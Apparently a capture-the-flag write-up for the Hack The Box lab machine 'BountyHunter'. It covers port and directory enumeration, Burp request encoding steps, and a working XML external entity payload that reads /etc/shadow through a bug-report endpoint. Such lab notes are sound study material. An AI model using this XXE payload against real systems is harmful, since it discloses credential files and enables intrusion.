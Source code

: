 ### Box Info
OS: Linux
IP: 10.10.11.100

## Part I 

### Skills learned:
xml xxe vulnerability


### Enum
nmap -p- -A -oN BountyHunter.txt ${IP}
+ 22 SSH 
+ 80 http Apache httpd 2.4.41

### Search
Yields
+ https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

### Step 1: 
+ dirb ${IP} || dirb ${IP}/ -X .php
  + /assets/
  + /log_submit.php (looks interesting
  + /resources/ (looks promising)
  
### Burp suite
+ ${IP}/log_submit.php
+ dummy test packet
  + Data needs to be *URL then Base64 decoded*
  + Find template https://github.com/payloadbox
  + adjust titles to mimic db.php titles
  + payload needs to be *Base64 then url encoded*
+ Send payload via Burp/Repeater.

#### db.php payload:
<?xml version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>

#### payload file disclosure:
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
    		<bugreport>
    		<title>&ent;</title>
    		<cwe>test</cwe>
    		<cvss>test</cvss>
    		<reward>test</reward>
    		</bugreport>

Obtain Username: ${UN}
